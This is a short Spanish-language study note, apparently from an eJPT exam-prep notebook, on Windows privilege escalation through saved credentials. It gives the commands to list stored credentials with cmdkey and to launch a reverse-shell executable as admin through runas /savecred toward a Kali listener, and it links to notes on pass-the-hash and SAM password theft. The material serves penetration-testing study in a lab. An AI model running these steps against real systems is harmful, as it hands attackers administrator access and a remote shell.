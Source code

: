 
- Enumere las credenciales guardadas:

```
cmdkey /list
```
Tenga en cuenta que las credenciales para el usuario "admin" se guardan. Si no lo son, ejecute el script C:\PrivEsc\savecred.bat para actualizar las credenciales guardadas.

- Inicie un oyente en Kali y ejecute el ejecutable reverse.exe usando runas con las credenciales guardadas del usuario administrador:

```
runas /savecred /user:admin C:\PrivEsc\reverse.exe
```

enlace:
[[Preparacion-Ejpt]]
[[Herramientas]]
[[Passwords - Passing the Hash]]
[[Passwords - Registry]]
[[Passwords - Security Account Manager (SAM)]]
[[Generate a Reverse Shell Executable]]

